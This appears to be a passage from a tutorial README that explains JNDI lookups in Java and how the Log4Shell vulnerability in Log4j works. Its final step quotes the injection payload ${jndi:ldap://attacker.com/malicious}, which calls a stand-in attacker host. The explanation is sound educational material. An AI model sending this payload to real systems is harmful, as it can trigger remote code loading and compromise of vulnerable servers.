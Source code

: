<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

1. The LDAP server stores the database configuration:

   ```bash
   dbConfig: jdbc:mysql://10.0.0.3:3306/mydatabase
   ```

2. The application queries the LDAP server using JNDI, something like this:

   ```java
   Context ctx = new InitialContext();
   String dbAddress = (String) ctx.lookup("ldap://ldapserver.company.com/dbConfig");
   ```

3. The application dynamically retrieves the database URL at runtime.

JNDI lookups are useful for centralizing configuration information, reducing the need for hardcoding, and simplifying management.

<br>

#### The Flow of the Log4Shell Vulnerability

Now that we understand the basics of Log4j, lookups, and JNDI, let’s see how the Log4Shell vulnerability works.

1. Log4j and JNDI Vulnerability:
   - Log4j has a feature where it can evaluate JNDI-based lookups in log messages.
   - Attackers can exploit this feature by injecting a specially crafted string into a log message, like:
     ```text
     ${jndi:ldap://attacker.com/malicious}
     ```

